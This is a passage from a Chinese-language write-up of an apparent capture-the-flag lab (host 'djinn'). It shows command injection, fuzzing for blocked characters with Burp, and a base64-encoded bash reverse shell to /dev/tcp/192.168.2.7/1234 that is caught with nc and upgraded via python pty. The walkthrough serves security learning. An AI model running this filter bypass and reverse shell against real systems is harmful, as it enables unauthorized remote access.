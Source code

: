 2、可以执行命令，这里有个小细节，我们得用 bp 重发器拦截了 302 才能看到结果，因为浏览器会直接 302 跳转到其它地方

<img src=".\图片\Snipaste_2023-08-15_15-18-28.png" alt="Snipaste_2023-08-15_15-18-28" style="zoom:67%;" />

3、模糊测试

但是，执行反弹 shell 失败，可能有过滤。面对这种过滤，我们需要 fuzz 大法测试，把一堆 特殊字符 放进一个字典 然后使用 bp 的爆破模块，查看回显页面的不同，就可以知道哪个特殊字符被拦截了，然后慢慢想办法绕过 

发现如下被禁止的特殊字符

```
;	/	?	*	^	$
```

这里试试老办法 base64 编码

4、反弹 shell

在kali里输入：

```
└─# echo "bash -i &> /dev/tcp/192.168.2.7/1234 0>&1"|base64
YmFzaCAtaSAmPiAvZGV2L3RjcC8xOTIuMTY4LjIuNy8xMjM0IDA+JjEK
```

在 burp 输入

```
echo "YmFzaCAtaSAmPiAvZGV2L3RjcC8xOTIuMTY4LjIuNy8xMjM0IDA+JjEK"|base64 -d|bash
```

然后得到反弹 shell

```bash
└─# nc -lvvp 1234            
listening on [any] 1234 ...
connect to [192.168.2.7] from 192.168.2.8 [192.168.2.8] 33402
bash: cannot set terminal process group (711): Inappropriate ioctl for device
bash: no job control in this shell
www-data@djinn:/opt/80$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@djinn:/opt/80$ tty
tty
/dev/pts/0
www-data@djinn:/opt/80$ ls
ls
app.py	app.pyc  static  templates
www-data@djinn:/opt/80$ 
```
